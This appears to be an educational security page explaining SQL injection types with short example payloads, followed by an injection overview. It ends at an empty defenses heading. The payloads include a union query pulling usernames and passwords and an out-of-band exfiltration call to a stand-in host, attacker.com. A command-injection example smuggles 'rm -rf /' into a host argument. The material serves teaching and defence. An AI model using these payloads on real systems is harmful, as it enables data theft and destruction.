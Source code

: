 
## ⚔️ Types of SQL Injection (with Definitions & Examples)

### 1. In-Band SQLi
The attacker uses the **same communication channel** to both launch the attack and gather the results.

- **a. Error-Based SQLi**: Relies on database error messages to extract data  
  _Example_: `' OR 1=1 ORDER BY 100--` (triggers error if column doesn't exist)

- **b. Union-Based SQLi**: Uses the `UNION` keyword to combine results of two queries  
  _Example_: `' UNION SELECT username, password FROM users--`

### 2. Inferential SQLi (Blind SQLi)
The attacker **doesn't get direct output** but observes app behavior (true/false, time delay) to infer data.

- **a. Boolean-Based**: Alters logic to get different responses  
  _Example_: `' AND 1=1 --` (valid), `' AND 1=2 --` (invalid)

- **b. Time-Based**: Uses delay functions to confirm conditions  
  _Example_: `' OR IF(1=1, SLEEP(5), 0) --`

### 3. Out-of-Band SQLi
Leverages external services (like DNS or HTTP) to exfiltrate data from the database when no direct or timing-based feedback is possible.  
_Example_: `'; SELECT load_file('\\\\attacker.com\\share') --`

## 📉 Injection Attacks Overview

Injection occurs when untrusted input is interpreted as code or commands by the application. Examples:

### 🛠 SQL Injection
```sql
SELECT * FROM users WHERE username = '$user_input'
```
If `$user_input = ' OR 1=1 --`, the query becomes:
```sql
SELECT * FROM users WHERE username = '' OR 1=1 --'
```

### 🛠 Command Injection
```bash
ping $host
```
If `$host = 8.8.8.8; rm -rf /`, it triggers a shell injection.

---

## 🧰 Recommended Defenses
